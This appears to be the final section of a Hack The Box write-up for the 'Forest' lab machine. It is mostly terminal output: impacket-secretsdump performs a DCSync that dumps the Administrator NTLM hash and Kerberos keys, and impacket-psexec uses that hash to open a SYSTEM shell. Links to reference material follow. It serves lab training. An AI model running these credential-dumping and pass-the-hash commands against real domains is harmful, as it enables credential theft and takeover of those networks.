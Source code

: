 
## DC secretdumping
```
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump forest.htb/scriptkiddie:scriptkiddie@10.10.10.161 -just-dc-user administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up... 
                         
```


Root with psexec.py
```
┌──(kali㉿kali)-[~]
└─$ impacket-psexec forest.htb/administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file RykCEJQe.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service BDRH on 10.10.10.161.....
[*] Starting service BDRH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 

```
z




https://stackoverflow.com/questions/32324023/how-to-connect-to-remote-machine-via-winrm-in-python-pywinrm-using-domain-acco

Resource

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a


https://05t3.github.io/posts/Active-Directory-Lab-Setup/





## HTB Pwned page
https://www.hackthebox.com/achievement/machine/288193/212

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb